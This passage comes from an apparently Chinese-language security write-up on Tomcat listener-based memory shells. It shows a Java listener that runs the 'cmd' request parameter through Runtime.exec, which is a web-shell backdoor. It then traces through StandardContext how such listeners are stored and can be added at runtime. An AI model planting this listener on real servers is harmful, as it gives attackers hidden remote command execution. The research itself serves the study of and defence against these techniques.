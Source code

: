 ```java
        String cmd = request.getParameter("cmd");
        System.out.println(cmd);
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
        }
    }
}
```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712625899512-60e37c4f-8ab7-4bc4-98c1-430373844e37.png)

### 4.1.1、Listener的创建过程

开启Debug我们看调用栈
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712626094628-8c950544-d0be-4a82-90e2-b22816311902.png)
`StandardContext#fireRequestInitEvent`调用了我们的`Listener`，我们跟进看其实现

```java
public boolean fireRequestInitEvent(ServletRequest request) {
        Object[] instances = this.getApplicationEventListeners();
        if (instances != null && instances.length > 0) {
            ServletRequestEvent event = new ServletRequestEvent(this.getServletContext(), request);

            for(int i = 0; i < instances.length; ++i) {
                if (instances[i] != null && instances[i] instanceof ServletRequestListener) {
                    ServletRequestListener listener = (ServletRequestListener)instances[i];

                    try {
                        listener.requestInitialized(event);
                    } catch (Throwable var7) {
                        ExceptionUtils.handleThrowable(var7);
                        this.getLogger().error(sm.getString("standardContext.requestListener.requestInit", new Object[]{instances[i].getClass().getName()}), var7);
                        request.setAttribute("javax.servlet.error.exception", var7);
                        return false;
                    }
                }
            }
        }

        return true;
    }
```

关键代码有两处，首先通过`getApplicationEventListeners()`获取一个`Listener`数组，然后遍历数组调用`listener.requestInitialized(event)`方法触发`Listener`。跟进`getApplicationEventListeners()`方法
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712626440436-d8b1fe6c-17e0-479e-8209-17df966eeb10.png)
可以看到`Listener`实际上是存储在`applicationEventListenersList`属性中的
并且我们可以通过`StandardContext#addApplicationEventListener()`方法来添加`Listener`
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712626559727-33a25ce5-57bb-48a1-a036-36face2594ee.png)
